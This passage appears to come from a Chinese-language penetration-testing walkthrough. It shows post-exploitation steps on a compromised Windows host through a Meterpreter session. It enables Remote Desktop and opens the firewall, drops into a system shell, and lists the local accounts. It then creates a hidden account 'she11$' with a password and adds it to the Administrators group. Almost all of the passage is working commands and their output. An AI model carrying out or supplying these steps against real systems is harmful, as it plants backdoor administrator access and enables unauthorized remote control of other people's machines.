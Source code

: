 开启远程 **RDP** 连接。

```shell
meterpreter > run post/windows/manage/enable_rdp
[*] Enabling Remote Desktop
[*]     RDP is already enabled
[*] Setting Terminal Services service startup mode
[*]     Terminal Services service is already set to auto
[*]     Opening port in local firewall if necessary
[*] For cleanup execute Meterpreter resource file: ~/.msf4/loot/20190814180610_default_192.168.3.72_host.windows.cle_307378.txt
```

查看刚刚开启 RDP 执行的具体命令。

```shell
$ cat ~/.msf4/loot/20190814180610_default_192.168.3.72_host.windows.cle_307378.txt
execute -H -f cmd.exe -a "/c 'netsh firewall set service type = remotedesktop mode = enable'"
```

进入 **CMD** 模式。

```shell
meterpreter > shell
Process 7116 created.
Channel 3 created.
Microsoft Windows [版本 6.1.7600]
版权所有 (c) 2009 Microsoft Corporation。保留所有权利。
C:\\Windows\\System32>
```

查看当前所有用户。

```shell
C:\\Windows\\System32>net user
\\\\ 的用户帐户
---------------------------------------------------------
Administrator            Guest                    mysql
MySQL_HWS                www
```

创建一个隐藏用户（Windows 中在用户名后带上**\$**即为隐藏用户，仅是简单隐藏），并拉入管理员用户组，查看。

```shell
C:\\Windows\\System32>net user she11$ D@i123 /add

C:\\Windows\\System32>net localgroup administrators she11$ /add

C:\\Windows\\System32>net user she11$
用户名                 she11$
全名
注释
用户的注释
国家/地区代码          000 (系统默认值)
帐户启用               Yes
帐户到期               从不
上次设置密码           2019/8/14 0:30:02
密码到期               2019/9/25 0:30:02
密码可更改             2019/8/14 0:30:02
需要密码               Yes
用户可以更改密码       Yes
允许的工作站           All
登录脚本
用户配置文件
主目录
上次登录               2019/8/14 0:44:40
可允许的登录小时数     All
本地组成员             *Administrators       *Users
全局组成员             *None
```